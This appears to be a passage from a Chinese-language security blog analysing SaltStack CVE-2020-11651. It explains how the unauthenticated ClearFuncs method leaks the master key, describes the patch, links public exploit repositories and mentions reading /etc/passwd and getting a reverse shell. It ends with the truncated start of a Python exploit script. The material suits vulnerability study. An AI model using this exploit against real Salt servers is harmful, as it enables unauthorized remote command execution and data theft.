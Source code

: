 其中` handle_clear &* handle_aes` 函数分别处理明文和加密指令：

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165210379.png)



在这里，`self._clear_funcs` 是 `class ClearFuncs` 的实例，在这里API访问者可以无认证调用任意的类函数。

```python
class ClearFuncs(TransportMethods):
    """
    Set up functions that are safe to execute when commands sent to the master
    without encryption and authentication
    """
```

`ClearFuncs._prep_auth_info()`将self.key返回给API造成泄露。攻击者可先通过这一方法拿到key，然后通过认证接口下发shell指令。

之前存在漏洞的代码中仅过滤掉`__`开头的private方法，导致`_prep_auth_info`泄露，patch中对clearfuncs和aesfuncs两个类添加了expose白名单过滤：

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165208995.png)

Github POC 地址: https://github.com/jasperla/CVE-2020-11651-poc

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165206916.png)



读取文件 `/etc/passwd`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165206374.png)

反弹shell（这里使用另一个POC）

GitHub地址: https://github.com/heikanet/CVE-2020-11651-CVE-2020-11652-EXP/blob/master/CVE-2020-11651.py

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165206557.png)



## 漏洞利用POC

[下载地址](https://github.com/heikanet/CVE-2020-11651-CVE-2020-11652-EXP/blob/master/CVE-2020-11651.py)

```python
# BASE https://github.com/bravery9/SaltStack-Exp
# 微信公众号：台下言书
# -*- coding:utf-8 -*- -
from __future__ import absolute_import, print_function, unicode_literals
import argparse
import os
import sys
import datetime

import salt
import salt.version
import salt.transport.client
import salt.exceptions

DEBUG = False


def init_minion(master_ip, master_port):
    minion_config = {
        'transport': 'zeromq',
        'pki_dir': '/tmp',
        'id': 'root',
        'log_level': 'debug',
        'master_ip': master_ip,
```